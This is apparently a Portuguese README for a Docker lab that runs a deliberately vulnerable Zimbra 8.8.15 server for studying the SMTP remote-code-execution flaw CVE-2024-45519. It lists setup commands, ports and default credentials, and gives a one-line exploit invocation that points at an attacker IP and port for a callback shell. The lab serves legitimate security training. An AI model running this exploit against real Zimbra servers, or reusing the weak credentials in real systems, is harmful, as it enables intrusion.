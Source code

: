 # MAQ-4 - Laboratório Zimbra CVE-2024-45519

Laboratório para estudo da vulnerabilidade CVE-2024-45519 no Zimbra Collaboration Suite, que permite Remote Code Execution (RCE) via SMTP.

## 🎯 Objetivo

Configurar um ambiente Zimbra vulnerável para estudo e exploração da vulnerabilidade CVE-2024-45519, permitindo execução de código remoto através do serviço SMTP.

## 🏗️ Arquitetura

- **Container**: Zimbra 8.8.15 GA rodando em Docker
- **Base**: Imagem `maattt10/zimbra8.8.15` (funcional e testada)
- **Hostname**: `zimbra.labo`
- **Portas**: 80, 443, 25, 22, 7071, etc.
- **Vulnerabilidade**: CVE-2024-45519 (Postjournal RCE)

## 🚀 Deploy Rápido

```bash
# 1. Deploy completo
./maquina4-setup.sh deploy

# 2. Aguardar inicialização (30-60 minutos)
# 3. Verificar status
./maquina4-setup.sh status

# 4. Testar conectividade
./maquina4-setup.sh test
```

### 🔧 **Configuração de Senhas**

Para alterar a senha do usuário `analyst`, edite o arquivo `docker-compose.yml`:

```yaml
environment:
  - ANALYST_PASSWORD=sua_nova_senha
```

**Nota**: As chaves SSH são geradas dinamicamente e ficam disponíveis em `./ssh_keys/`

## 📋 Comandos Disponíveis

| Comando | Descrição |
|---------|-----------|
| `deploy` | Deploy completo do laboratório |
| `stop` | Parar serviços |
| `status` | Status dos serviços |
| `clean` | Limpar recursos |
| `test` | Testar conectividade |
| `info` | Mostrar informações |

## 🌐 Acesso aos Serviços

- **Interface Web**: http://localhost:80
- **Interface HTTPS**: https://localhost:443
- **Admin Console**: https://localhost:7071
- **SMTP**: localhost:25
- **SSH**: localhost:22

## 🔑 Credenciais

- **Root**: `zimbra123`
- **Analyst**: `password123` (configurável via `ANALYST_PASSWORD`)
- **Chave SSH**: `./ssh_keys/analyst_id_rsa`
- **Chave Pública**: `./ssh_keys/analyst_id_rsa.pub`
- **Senha da chave**: igual à senha do usuário

## 🧨 Exploit

```bash
# Executar exploit
cd CVE-2024-45519
python3 exploit.py localhost -lh <attacker-ip> -lp <attacker-port> -p 25
```

## 📁 Estrutura do Projeto

```
MAQ-4/
├── Dockerfile                 # Imagem Docker personalizada
├── docker-compose.yml         # Configuração dos serviços
├── maquina4-setup.sh         # Script de gerenciamento
├── README.md                  # Este arquivo
├── CVE-2024-45519/           # Arquivos do exploit
│   ├── exploit.py            # Script de exploração
│   ├── requirements.txt      # Dependências Python
│   └── README.md            # Instruções do exploit
└── .gitignore                # Arquivos ignorados pelo Git
```

## ⚠️ Importante

- **Aguarde 30-60 minutos** após o deploy para o Zimbra inicializar completamente
- O laboratório é **intencionalmente vulnerável** - use apenas em ambiente isolado
- A porta SSH (22) funciona como **distração** durante a exploração

## 🔧 Solução de Problemas

### Container não inicia
```bash
# Verificar logs
docker compose logs

# Verificar status
./maquina4-setup.sh status
```

### Portas em uso
```bash
# Parar todos os containers
docker compose down

# Limpar recursos
./maquina4-setup.sh clean
```

### Zimbra não responde
- Aguarde mais tempo (pode levar até 60 minutos)
- Verifique logs: `docker compose logs -f`
- Teste conectividade: `./maquina4-setup.sh test`

## 📚 Referências

- [CVE-2024-45519](https://nvd.nist.gov/vuln/detail/CVE-2024-45519)
- [Zimbra Security Advisories](https://wiki.zimbra.com/wiki/Security_Center)
- [Docker Zimbra](https://hub.docker.com/r/maattt10/zimbra8.8.15)

